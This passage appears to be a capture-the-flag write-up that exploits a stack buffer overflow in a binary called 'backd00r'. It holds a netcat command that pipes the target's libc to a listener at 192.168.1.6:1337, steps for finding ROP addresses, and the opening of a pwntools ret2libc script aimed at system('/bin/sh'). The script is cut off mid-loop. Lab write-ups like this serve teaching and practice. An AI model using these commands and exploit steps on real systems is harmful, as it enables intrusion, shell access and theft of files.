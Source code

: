 Run `cat /lib/x86_64-linux-gnu/libc.so.6 | nc 192.168.1.6 1337`

Format: `cat /lib/x86_64-linux-gnu/libc.so.6 | nc LHIP PORT`

!["connect_listener"](/Serial_2/22_image.png)
_Send all bytes of the file to the listener._

Set the **LD\_LIBRARY\_PATH** environment variable to the path of this library to ensure that the binary uses this particular libc.

Analysing the binary, I found a buffer overflow vulnerability.

!["loop"](/Serial_2/16_image.png)
_Buffer overflow vulnerability in the "loop" function of the binary._

Playing with the input, I was able to cause a SIGSEGV through instruction pointer corruption.

!["sigsegv"](/Serial_2/20_image.png)
_SIGSEGV encountered._

The value stored in the instruction pointer at the time of the error is compared against the input provided, and it is found that the input buffer is only 72 bytes far from the saved return address on stack.

We use the **pwntools** library to build our exploit script.

Finding the relevant addresses:

Run  `objdump -d -M intel backd00r | grep puts`

!["puts"](/Serial_2/23_image.png)
_Address of puts@plt._

Run `readelf -r backd00r | grep puts`

!["puts_libc"](/Serial_2/25_image.png)
_Address of puts in libc._

Run `ropper --file backd00r --search "pop rdi"`

!["gadget"](/Serial_2/26_image.png)
_Address of gadget._

Following is the final script used to exploit the service:

```python
#!/usr/bin/env python3
from pwn import *

libc = ELF('libc.so.6', checksec = False)

offset_binsh = next(libc.search(b'/bin/sh'))
offset_puts = libc.sym['puts']
offset_system = libc.sym['system']

address_gadget = 0x400bb3

got_puts = 0x602018
plt_puts = 0x4005c0
loop = 0x4009c9

def exploit(r):
    pause()
    # Pass the password check to reach the prompt.
    r.recvuntil("vulnab's password: ")
    r.sendline("j&9GCS34MY+^4ud*")
    response = r.recvline()
    while "password: Permission denied" in response.decode("utf-8"):
```